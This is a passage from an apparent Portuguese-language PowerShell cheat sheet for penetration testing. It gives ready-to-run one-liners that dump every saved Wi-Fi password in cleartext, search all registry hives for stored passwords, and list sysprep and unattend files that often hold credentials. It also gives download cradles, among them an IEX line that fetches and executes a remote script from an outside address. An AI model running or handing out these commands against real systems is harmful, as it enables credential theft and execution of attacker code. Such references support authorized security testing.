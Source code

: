 ```powershell
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```

#### Patterns no Registro

```powershell
$pattern = "password"
$hives = "HKEY_CLASSES_ROOT","HKEY_CURRENT_USER","HKEY_LOCAL_MACHINE","HKEY_USERS","HKEY_CURRENT_CONFIG"
```

#### Chaves no Registro

```powershell
foreach ($r in $hives) { gci "registry::${r}\" -rec -ea SilentlyContinue | sls "$pattern" }
```

#### Valores no Registro

```powershell
foreach ($r in $hives) { gci "registry::${r}\" -rec -ea SilentlyContinue | % { if((gp $_.PsPath -ea SilentlyContinue) -match "$pattern") { $_.PsPath; $_ | out-string -stream | sls "$pattern" }}}
```

### Download de Arquivos

Escolha um e seja feliz!

```powershell
Invoke-WebRequest -Uri $url -OutFile $output
(New-Object System.Net.WebClient).DownloadFile($url, $output)
Start-BitsTransfer -Source $url -Destination $output
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
IEX(New-Object Net.WebClient).DownloadFile('http://0.0.0.0/arquivo','output')
powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.5/power.ps1')
```

### Extraindo Arquivos Zip

```powershell
Expand-Archive -Path $Source -DestinationPath $Destination
```

### Unattended Files

```powershell
C:\Windows\sysprep\sysprep.xml
C:\Windows\sysprep\sysprep.inf
C:\Windows\sysprep.inf
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\System32\Sysprep\unattend.xml
C:\Windows\System32\Sysprep\unattended.xml
C:\unattend.txt
C:\unattend.inf
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```
